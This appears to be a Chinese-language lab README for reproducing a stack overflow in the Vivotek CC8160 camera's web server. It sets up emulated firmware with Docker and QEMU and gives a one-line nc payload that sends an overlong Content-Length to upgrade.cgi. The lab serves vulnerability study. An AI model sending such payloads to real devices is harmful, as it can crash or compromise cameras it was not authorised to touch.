

# Vivotek CC8160 栈溢出漏洞

## 漏洞环境

- docker：攻击、调试主机：192.168.2.1
- qemu-system：固件主机：192.168.2.2
- httpd（有漏洞服务）：192.168.2.2:80
- 镜像依赖：`firmianay/ubuntu1604 -> firmianay/qemu-system:armel`

使用 `firmianay/binwalk` 解压固件：

```sh
$ docker run --rm -v $PWD/firmware/:/root/firmware firmianay/binwalk -Mer "/root/firmware/CC8160-VVTK-0100d.flash.pkg"
```

### 用户模拟

构建并启动漏洞环境：

```sh
# 构建镜像
$ docker-compose -f docker-compose-user.yml build

# 启动容器
$ docker-compose -f docker-compose-user.yml up
```

### 系统模拟

构建并启动漏洞环境：

```sh
# 初始化环境
$ ./init_env.sh arm

# 构建镜像
$ docker-compose -f docker-compose-system.yml build

# 启动容器
$ docker-compose -f docker-compose-system.yml up

# 等待启动完成，重新打开一个窗口
$ docker exec -it vivotek-system /bin/bash

$ ssh root@192.168.2.2
```

## 漏洞复现

```sh
echo -en "POST /cgi-bin/admin/upgrade.cgi\r\nHTTP/1.0\nContent-Length:AAAAAAAAAAAAAAAAAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIXXXX\n\r\n\r\n"  | nc -v 127.0.0.1 8888
```



## 参考链接

- https://www.exploit-db.com/exploits/44001
- https://xz.aliyun.com/t/5054
- https://www.anquanke.com/post/id/185336
- https://paper.seebug.org/480/
